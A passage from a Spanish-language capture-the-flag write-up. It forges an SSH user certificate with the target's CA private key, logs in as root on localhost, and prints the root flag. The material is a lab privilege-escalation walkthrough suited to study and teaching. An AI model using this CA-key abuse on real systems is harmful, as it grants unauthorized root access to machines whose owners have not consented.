**Explicación de los parámetros:**

* `-s` → Archivo de clave privada de la CA
* `-I` → Identificador del certificado
* `-n` → Nombre(s) de usuario para los que es válido
* `-V` → Período de validez (+1d = 1 día)

Esto genera el archivo `root-key-cert.pub`, que es nuestro certificado SSH firmado.

#### Acceso como Root

Finalmente, nos conectamos por SSH usando nuestra clave privada y el certificado firmado:

```shell
ssh -i root-key -o CertificateFile=root-key-cert.pub root@localhost
```

Respuesta:

```
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

root@principal:~# whoami
root
```

Hemos escalado privilegios hasta `root` utilizando la `CA` de `SSH`, por lo que leeremos la `flag` de `root`.

> root.txt

```
fb8c0ad94e72402f22f5ebffc59154af
```
